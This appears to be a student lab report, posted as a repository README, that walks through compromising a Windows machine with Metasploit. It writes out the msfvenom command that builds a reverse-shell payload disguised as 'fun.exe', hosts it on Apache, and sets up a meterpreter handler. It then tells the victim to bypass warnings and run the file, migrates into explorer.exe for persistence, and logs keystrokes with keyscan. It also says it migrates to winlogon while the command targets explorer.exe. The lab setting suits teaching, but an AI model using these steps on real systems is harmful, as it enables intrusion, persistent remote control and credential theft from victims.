 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
## NAME: SANTHOSH T
## REGISTER NO: 212223220100
## DEPARTMENT: INFORMATION TECHNOLOGY

## AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

Find the attackers ip address using ifconfig
## OUTPUT:
![alt text](image.png)

Create a malicious executable file fun.exe using msfvenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT
![alt text](image-1.png)

copy the fun.exe into the apache /var/www/html folder
![alt text](image-2.png)

Start apache server
sudo systemctl apache2 start

![alt text](image-3.png)

Check the status of apache2
![alt text](image-4.png)

Invoke msfconsole:
## OUTPUT:
![alt text](image-5.png)



Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
![alt text](image-6.png)
Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
![alt text](image-7.png)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.140.55/fun.exe
The file "fun.exe" downloads. 
![alt text](image-9.png)

Bypass any warning boxes, double-click the file, and allow it to run.
![alt text](image-8.png)

On kali give the command exploit
![alt text](image-10.png)

To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156
![alt text](image-12.png)
The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 
![alt text](image-11.png)

Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![alt text](image-13.png)
![alt text](image-14.png)
![alt text](image-15.png)

keyscan_dump	Shows the keystrokes captured so far




## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
